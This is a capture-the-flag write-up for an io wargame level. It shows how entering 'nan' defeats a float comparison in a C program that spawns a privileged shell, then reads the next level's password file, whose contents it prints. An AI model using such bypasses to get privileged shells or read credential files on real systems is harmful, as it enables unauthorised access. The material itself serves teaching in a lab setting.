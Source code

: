 Let's take a look at the source code.

```
/* submitted by noname */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define answer 3.141593

void main(int argc, char **argv) {

	float a = (argc - 2)?: strtod(argv[1], 0);

        printf("You provided the number %f which is too ", a);


        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
}
```

A couple of things about this code, first let's take a look at this line.

```
	float a = (argc - 2)?: strtod(argv[1], 0);
```

Will when I first started this challenge, I didn't know what the "?:" meant. After a bit of googling I found out that it is a ternary operator, which is essentially an if then statement. The part before the "?" is the condition. The part in between the "?" and the ":" is what executes if the condition is true. After the ":" is what happens when the condition is false.
So if the value is true, since there is nothing in the truth location, it will just be equal to the amount of arguments (argc) minus 2. If it is false, then it will just be equivalent to the float equivalent (thanks to the strtod() function) of the first argument after the program name.
To get it to evaluate as false, we can just enter in the program name followed by another argument, since it will evaluate a zero as false.

```
        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
```

Looking here, it appears that our input which is stored in the float "a" will be evaluated if it is higher or lower than the answer variable (3.141593). So we should be able just to input the value, then boom a shell.

```
level2@io:/levels$ ./level02_alt 3.141593
You provided the number 3.141593 which is too low
```

What, that should of worked? But wait a minute, our input is being stored as a float. The issue with floats is when they are compared with other things, they are rounded in this case down. That is why it is printing that we have the same value it is checking against however it is claiming that the value we gave it is lower. So no matter what value we put in there, it is going to get rounded (provided it can) and it will loose the decimal places needed to fail both of those checks.
However there is also something special about floats. It is possible for a float to have the value nan(not a number). If it is not a number than it can neither be greater or less than 3.141593 since it isn't a number. To prove this concept, I played around with a bit of sample code myself.

Sample Code:
```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    //Establish the int and the float
    int a;
    float f;
    
    //Set the value of the int
    a = 4;
    
    //Divide a number by zero, which doesn't exist so it becomes not a number
    f = 0.0 / 0.0;

    //Print the value of that number
    printf("%f\n", f);
    
    //And finally to evaluate it
    if (a < f)
        puts("This won't work");
    if (a > f)
        puts("This won't work");
    else
        puts("This will work");
    return 0;
}
```

and here is the output:
```
guyinatuxedo@tux:/Athena/test/bin/Debug$ ./test 
-nan
This will work
```

So now that we proved that worked, we should be able to do the same thing to the challenge. To set the float equal to nan (not a number), we can just put "nan" as the argument.

```
level2@io:/levels$ ./level02_alt nan
sh-4.3$ whoami
level3
sh-4.3$ cat /home/level3/.pass
OlhCmdZKbuzqngfz
```
And just like that, we pwned the challenge.

